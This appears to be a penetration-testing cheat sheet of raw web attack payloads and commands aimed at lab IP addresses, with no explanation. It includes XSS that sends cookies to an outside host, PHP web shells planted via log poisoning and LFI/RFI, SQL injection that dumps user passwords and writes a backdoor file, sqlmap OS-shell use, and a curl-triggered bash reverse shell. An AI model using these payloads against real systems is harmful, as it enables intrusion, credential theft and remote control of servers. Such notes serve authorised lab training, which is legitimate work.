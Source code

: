 #### XSS
`<iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>`

`<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>`

`powershell -ExecutionPolicy Bypass -File clear_logs.ps1`

`powershell -ExecutionPolicy Bypass -File admin_login.ps1`

### LOG POISONING

```
nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

```
### LFI

`http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

### Running a server

`<?php echo shell_exec($_GET['cmd']); ?>`

`python -m SimpleHTTPServer 7331`

`python3 -m http.server 7331`

`php -S 0.0.0.0:8000`

`ruby -run -e httpd . -p 9000`

`busybox httpd -f -p 10000`

### PHP data wrapper used with LFI

`http://192.168.175.10/menu.php?file=data:text/plain,%3C?php%20echo%20shell_exec(%22dir%22)%20?%3E`

`http://192.168.175.10/menu.php?file=data:text/plain,%3C?php%20echo%20%27%3Cpre%3E%27%20.%20shell_exec($_GET[%27cmd%27])%20.%20%27%3C/pre%3E%27;?%3E&cmd=whoami`

### RFI

`http://192.168.175.10/menu2.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt?`

`http://192.168.175.10/menu.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt`

### SQL Injection

```
mysql -u root -proot

jim' or 1=1 limit 1;#


http://10.11.0.22/debug.php?id=1 order by 1

http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3

http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version 

http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()

http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables

http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'

http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users

http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')

http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'

http://192.168.175.10/debug.php?id=1%20union%20all%20select%201,%202,%20%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);?%3E%22%20into%20OUTFILE%20%27c:/xampp/htdocs/backdoor.php%27

```
#### sqlmap

```
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"

sqlmap -u http://192.168.175.10/debug.php?id=1 -p "id" --dbms=mysql --dump

sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os- shell

http://192.168.175.10:9090/search?search=gizmo%27)+UNION+ALL+SELECT+1,%27d%27,%27s%27,4,5--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,table_name,user(),4,null%20from%20information_schema.tables--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,column_name,user(),4,null%20from%20information_schema.columns%20--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,concat(username,password),user(),4,null%20from%20users%20--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,concat(username,password),user(),4,null%20from%20users%20--
```

### XSS

```
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<svg/onload=alert('XSS')>
<BODY ONLOAD=alert('XSS')>

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
```
### curl url encode

```
curl -k --data-urlencode "cmd=/bin/bash -i -c 'bash -i >& /dev/tcp/192.168.119.175/4444 0>&1'" --get https://192.168.175.44/uploads/shell.php -v

```
